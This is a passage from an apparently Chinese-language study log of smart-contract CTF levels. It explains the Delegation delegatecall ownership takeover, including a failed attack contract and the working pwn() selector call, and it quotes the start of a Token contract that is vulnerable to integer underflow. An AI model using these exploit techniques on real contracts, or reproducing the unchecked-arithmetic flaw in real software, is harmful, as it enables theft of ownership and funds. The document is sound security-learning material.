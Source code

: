 因此，若外部用户向 `Delegation` 发送 `pwn()` 的函数选择器：

- 会在 `Delegation` 的存储上下文中执行 `Delegate.pwn()` 的代码：

  ```
  owner = msg.sender; // 写的是 Delegation.slot0
  ```

- 由于 `msg.sender` 是外部用户本人，**`Delegation.owner` 会被改成外部用户地址**。

初次编写的失败攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface AttackDelegation {
    function owner() external view returns (address);
}

contract Attack{
    function pwn(address delegation) public {
        (bool ok, ) = delegation.call(abi.encodeWithSignature("pwn()"));
        require(ok, "delegatecall via fallback failed");
        address newOwner = AttackDelegation(delegation).owner();
        require(newOwner == msg.sender, "Pwn failed");
    }
}
```

攻击失败的原因是：

调用链是：**EOA -> Attack合约pwn函数 -> Delegation.fallback -> delegatecall -> Delegate.pwn()**

在 `delegatecall` 里，`msg.sender` 会保持为 **Delegation 的直接调用者**——也就是 **Attack 合约地址**，不是我的 EOA。所以 `Delegate.pwn()` 实际把 `Delegation.owner` 设成了 **Attack 合约地址**。因此失败。

最正确也是最简单的方式是用自己的账户直接对`Delegation` 发送 `pwn()` 的 selector

发送`data = 0xdd365b8b`（`pwn()` 的选择器）


# 2025-08-21

## 5.Token

这一关的目标是攻破下面这个基础 token 合约

你最开始有20个 token, 如果你通过某种方法可以增加你手中的 token 数量,你就可以通过这一关,当然越多越好

 这可能有帮助:

- 什么是 odometer?指的是整数溢出/下溢

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
```
